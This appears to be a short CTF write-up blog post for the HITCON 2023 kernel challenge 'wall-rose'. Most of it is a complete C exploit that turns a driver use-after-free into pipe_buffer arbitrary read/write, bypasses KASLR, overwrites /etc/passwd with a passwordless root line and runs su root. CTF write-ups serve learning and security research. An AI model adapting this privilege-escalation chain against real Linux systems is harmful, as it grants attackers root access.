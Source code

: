 ```yaml
---
title: "pipe_buffer AAR/AAW: wall-rose (HITCON 2023)"
date: 2024-09-29 13:21:33
tags: 
layout: default
---
```

# 0x00. Prologue

This is a challenge in HITCON 2023, a simple UAF challenge. It mentions `KASLR-FG` so I used to data-flow attack.

The attachment is from this [repo][1].

# 0x01. Challenge

This challenge is very simple and it provides a primitive that enables you UAF-Free a point. Considering there is no `kamlloc-cg` and there is `KASLR-FG`, I used dataflow attack method attacking `/etc/passwd` by `pipe_buffer` AAR/AAW, which I introduced in this [article][2].

It's not a complex challenge so I just leave my exp here. If you are interested at `pipe_buffer` AAR/AAW, please check [this article][3]. 

# 0x02. Exploitation
```c
// https://github.com/n132/libx
#include "libx.h"
#define PIPE_BUF_FUNC 0xffffffff82427c08
#define DEBUG 0
int ct= 0;
int uaf_fd[0x100]={};
void uafInit(){
    for(int i = 0 ; i < 0X100 ; i++)
       uaf_fd[i] = open("/dev/rose",2);
}
void uaf(){
    close(uaf_fd[ct++]);
}
void libxInit_CS(){
    pinCPU(0);
    // impLimit();
    hook_segfault();
    initPipeBufferN(pipe_fd,4);
    initSocketArrayN(sk_fd,4);
    success("Libx Inited");
}
int main()
{
    libxInit_CS();
    char * T = malloc(0x10000);
    char buf[0x1000] = {};
    memset(T,'i',0x8000);
    int msgIds[2] = {};
    for(int i =0 ; i < 2; i++)
        msgIds[i] = msgGet();
    msgSpray(0x3d0,0x220,T+0x8000);
    msgSpray(0xd0,0x200,T+0x8000);

    uafInit();
    uaf();
    write(sk_fd[0][1],T+0x6000,0x400-0x140);
    uaf();
    pipeBufferResize(pipe_fd[0][1],0x10);
    read(sk_fd[0][0],buf,0x400-0x140);
    size_t KASLR = *(size_t *)(buf+0x10);
    size_t VMMAP = (*(size_t *)(buf+0))>>28<<28;
    write(sk_fd[2][0],T+0x8000,0x400-0x140);
    uaf();
    msgSend(msgIds[0],0x3d0,T+0x8000);
    msgSpray(0xd0,0x200,T+0x8000);
    msgSend(msgIds[0],0x100-0x30,T+0x8000); // for 0x100 

    read(sk_fd[2][1],buf,0x400-0x140);

    pipeBufferResize(pipe_fd[1][0],0x10); // refill
    
    size_t KHEAP = ((*(size_t *)(buf+0))>>12<<12)+0x10000;
    success(hex(KHEAP));
    int fds[0x200]= {};
    for(int i = 0 ;  i < 0x200 ; i ++)
        fds[i] = open("/etc/passwd",0);
    
    
    size_t PHYSMAP      =  (KHEAP >>28<<28);
    size_t target_page  = VMMAP + ((KHEAP-PHYSMAP)>>12)*0x40;
    uaf();
    size_t bpipe[] = {target_page,0x0000010000000000,KASLR,0x10};
    memcpy(T+0x9000,bpipe,sizeof(bpipe));

    write(sk_fd[2][0],T+0x9000,0x400-0x140);
    memset(buf,0,0x1000);
    read(pipe_fd[1][0],buf,0x100);
    
    unsigned int * ptr = buf+0x74;
    
    *ptr = 0x004f801f;
    size_t bw = write(pipe_fd[1][1],buf,0x100);

    for(int i = 0 ; i < 0x200 ; i++)
            write(fds[i],"root::0:0:root:/root:/bin/sh\n",30);
    system("/bin/su root");

    success("Sleeping...");
    sleep(0x1000);
}
```

# 0x03. Epilogue
- Spent 2 hours practicing `pipe_buffer` AAR/AAW


[1]: https://github.com/wxrdnx/HITCON-2023-Challenges/blob/main/wall-rose/challenge/wall-rose-a10160050459354487c14f76f6bbd783d8d02c91.tgz
[2]: https://n132.github.io/2024/06/28/Castaways.html
[3]: https://www.interruptlabs.co.uk/articles/pipe-buffer